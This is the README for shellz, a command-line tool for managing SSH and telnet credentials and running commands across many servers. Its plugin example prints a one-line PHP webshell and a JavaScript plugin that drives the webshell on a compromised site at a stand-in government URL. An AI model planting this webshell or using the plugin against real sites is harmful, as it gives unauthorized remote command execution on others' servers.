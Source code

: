 <p align="center">
  <img alt="shellz" src="https://raw.githubusercontent.com/evilsocket/shellz/master/logo.png" />
  <p align="center">
    <a href="https://github.com/evilsocket/shellz/releases/latest"><img alt="Release" src="https://img.shields.io/github/release/evilsocket/shellz.svg?style=flat-square"></a>
    <a href="https://github.com/evilsocket/shellz/blob/master/LICENSE.md"><img alt="Software License" src="https://img.shields.io/badge/license-GPL3-brightgreen.svg?style=flat-square"></a>
    <a href="https://travis-ci.org/evilsocket/shellz"><img alt="Travis" src="https://img.shields.io/travis/evilsocket/shellz/master.svg?style=flat-square"></a>
    <a href="https://goreportcard.com/report/github.com/evilsocket/shellz"><img alt="Go Report Card" src="https://goreportcard.com/badge/github.com/evilsocket/shellz?style=flat-square&fuckgithubcache=1"></a>
  </p>
</p>

`shellz` is a small utility to keep track of your connection credentials, servers, custom shells and run commands on multiple machines at once. It supportsthe `ssh` and `telnet` protocols out of the box, plus a [plugin system](#plugins) to implement your own shell adapters.

## Installation

A [precompiled version is available for each release](https://github.com/evilsocket/shellz/releases), alternatively you can use the latest version of the source code from this repository in order to build your own binary.

### From Sources

Make sure you have a correctly configured **Go >= 1.8** environment, that `$GOPATH/bin` is in `$PATH` and then:

    $ go get -u github.com/evilsocket/shellz/cmd/shellz

This command will download shellz, install its dependencies, compile it and move the `shellz` executable to `$GOPATH/bin`.

## How to Use

The tool will use the `~/.shellz` folder to load your identities and shells json files, running the command `shellz` the first time will create the folder and the `idents` and `shells` subfolders for you. Once both `~/.shellz/idents` and `~/.shellz/shells` folders have been created, you can start by creating your first identity json file, for instance let's create `~/.shellz/idents/default.json` with the following contents:

```json
{
    "name": "default",
    "username": "evilsocket",
    "key": "~/.ssh/id_rsa"
}
```

As you can see my `default` identity is using my SSH private key to log in the `evilsocket` user, alternatively you can specify a `"password"` field instead of a `"key"`.

Now let's create our first shell json file ( `~/.shellz/shells/media.json` ) that will use the `default` identity we just created to connect to our home media server (called `media.server` in our example):

```json
{
    "name": "media-server",
    "host": "media.server",
    "port": 22,
    "identity": "default"
}
```

By default, shells are considered `ssh`, in which case you can optionally specify the ciphers your server supports:


```json
{
    "name": "old-server",
    "host": "old.server",
    "port": 22,
    "identity": "default",
    "ciphers": ["aes128-cbc", "3des-cbc"]
}
```

Also the `telnet` protocol is supported:

```sh
cat ~/.shellz/shells/tnas.json
```

```json
{
    "name": "tnas",
    "host": "tnas.local",
    "port": 23,
    "identity": "admin-tnas",
    "type": "telnet"
}
```

### Plugins

Instead of the two default types, `ssh` and `telnet`, you can specify a custom name, in which case shellz will try to use a user plugin. Let's start by creating a new shell json file `~/.shellz/shells/custom.json` with the following contents:

```json
{
    "name": "custom",
    "host": "http://www.imvulnerable.gov/uploads/sh.php",
    "identity": "empty",
    "port": 80,
    "type": "mycustomshell"
}
```

As you probably noticed, the `host` field is the full URL of a very simple PHP webshell uploaded on some website:

```php
<?php system($_REQUEST["cmd"]); die; ?>
```

Also, the `type` field is set to `mycustomshell`, in this case `shellz` will try to load the file `~/.shellz/plugins/mycustomshell.js` and use it to create a session and execute a command. 

A `shellz` plugin must export the `Create`, `Exec` and `Close` functions, this is how `mycustomshell.js` looks like:

```js
var headers = {
    'User-Agent': 'imma-shellz-plugin'
};

/*
 * The Create callback is called whenever a new command has been queued
 * for execution and the session should be initiated, in this case we 
 * simply return the main context object, but it might be used to connect
 * to the endpoint and store the socket on a more complex Object.
 */
function Create(ctx) {
    // log("Create(" + ctx + ")");
    return ctx;
}

/*
 * Exec is called for each command, the first argument is the context object
 * returned from the Create callback, while the second is a string with the
 * command itself.
 */
function Exec(ctx, cmd) {
    // log("running " + cmd + " on " + ctx.Host);

    /* 
     * OR
     *
     * var resp = http.Post(ctx.Host, headers, {"cmd":cmd});
     */
    var resp = http.Get(ctx.Host + "?cmd=" + cmd, headers)

    return resp.Error ? resp.Error : resp.Raw;
}

/*
 * Used to finalize the state of the object (close sockets, etc).
 */
function Close(obj) {
    // log("Close(" + ctx + ")");
}
```

Other than a `http` client, also a `tcp` client is available with the following API:

```js
// this will create the client
var c = tcp.Connect("1.2.3.4:80");
if( c == null ) {
    log("could not connect!");
    return;
}

// send some bytes
c.Write("somebyteshere");

// read some bytes until a newline
var ret = c.ReadUntil("\n");
if( ret.Error != null ) {
    log("error while reading: " + err);
} else {
    // print results
    log("res=" + ret.Raw);
}

// always close the socket
c.Close();
```

### Examples

List available identities, plugins and shells:

    shellz -list

Enable the shells named machineA and machineB:

    shellz -enable machineA, machineB

Disable the shell named machineA (commands won't be executed on it):

    shellz -disable machineA

Test all shells and disable the not responding ones:

    shellz -test

Test two shells and disable them if they don't respond within 1 second:

    shellz -test -on "machineA, machineB" -connection-timeout 1s

Run the command `id` on each shell:

    shellz -run id

Run the command `id` on a single shell named `machineA`:

    shellz -run id -on machineA

Run the command `id` on `machineA` and `machineB`:

    shellz -run id -on 'machineA, machineB'

Run the command `uptime` on every shell and append all outputs to the `all.txt` file:

    shellz -run uptime -to all.txt

Run the command `uptime` on every shell and save each outputs to a different file using per-shell data (every field referenced between `{{` and `}}` will be replaced by the shell json fields equivalent):

    shellz -run uptime -to "{{.Identity.Username}}_{{.Name}}.txt"

For a list of all available flags and some usage examples just type `shellz` without arguments.

## License

Shellz was made with ♥  by [Simone Margaritelli](https://www.evilsocket.net/) and it's released under the GPL 3 license.
